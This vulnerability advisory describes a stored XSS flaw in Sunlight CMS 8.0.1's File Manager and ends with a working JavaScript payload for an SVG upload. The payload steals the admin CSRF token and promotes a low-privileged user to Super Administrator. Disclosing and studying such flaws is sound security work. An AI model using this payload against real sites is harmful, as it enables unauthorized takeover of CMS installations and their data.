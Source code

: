 # Stored Cross-Site Scripting (XSS) in SVG image file uploaded in File Manager in Sunlight CMS 8.0.1

> https://github.com/sunlight-cms/sunlight-cms

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can upload files in the File Manager, is able to upload an SVG file with malicious Javascript code. After an Administrator or Super Administrator clicks and opens the image, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and adde it to the group 'Editors'.
2. The user 'editor1' uploads a malicious SVG file.
3. Access the image using the File Manager as a Super Administrator to execute the malicious code in the SVG image.
4. User 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can upload files in the File Manager, can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize SVG image files by removing scripts before rendering or convert SVG image files to safer formats like PNG and JPG.

# Proof of Concept code
Create a valid SVG image file and then add the following code:

```js
<script type="text/javascript">
	var csrf_token;
	var xhrGET_users_edit = new XMLHttpRequest(); 
	xhrGET_users_edit.responseType = "document"; 
	xhrGET_users_edit.onreadystatechange = function() {	
		if (this.readyState == 4 &amp;&amp; this.status == 200) {
			var doc = this.responseXML ;
			csrf_token = doc.getElementsByName("_security_token")[0].value;		
			var xhr = new XMLHttpRequest();
			xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&amp;id=editor1", true);
			xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
			xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
			xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
			xhr.withCredentials = true;
			var body = "username=editor1&amp;publicname=editor1&amp;email=editor1%40test.tk&amp;password=&amp;group_id=1&amp;wysiwyg=1&amp;public=1&amp;note=&amp;_security_token="+csrf_token;
			var aBody = new Uint8Array(body.length);
			for (var i = 0; i &lt; aBody.length ; i++)
				aBody[i] = body.charCodeAt(i); 
			xhr.send(new Blob([aBody]));
		}
	};
	xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&amp;id=editor1", true);
	xhrGET_users_edit.send();
</script>
```
